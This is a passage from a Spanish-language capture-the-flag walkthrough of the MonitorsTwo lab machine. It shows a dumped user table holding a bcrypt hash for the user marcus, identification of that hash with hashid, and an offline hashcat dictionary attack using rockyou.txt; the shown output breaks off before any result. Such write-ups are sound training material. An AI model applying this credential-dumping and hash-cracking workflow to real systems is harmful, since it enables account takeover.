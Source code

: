 ```bash
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | on        | on           | 3              |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |           0 |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  | on     |               0 |        0 |  2135691668 |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
```

Usando `hashid`, identificamos que se trata de hashes **Blowfish**.

```bash
❯ hashid '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
Analyzing '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Con la ayuda de **Hashcat**, identificamos el módulo utilizado para los hashes **Blowfish**.

```bash
❯ hashcat --help | grep Blowfish
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish)           | Document
```

Utilizando **Hashcat**, hemos logrado crackear el hash del usuario `marcus`.

```bash
❯ hashcat -m 3200 '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 5800H with Radeon Graphics, 2897/5858 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
```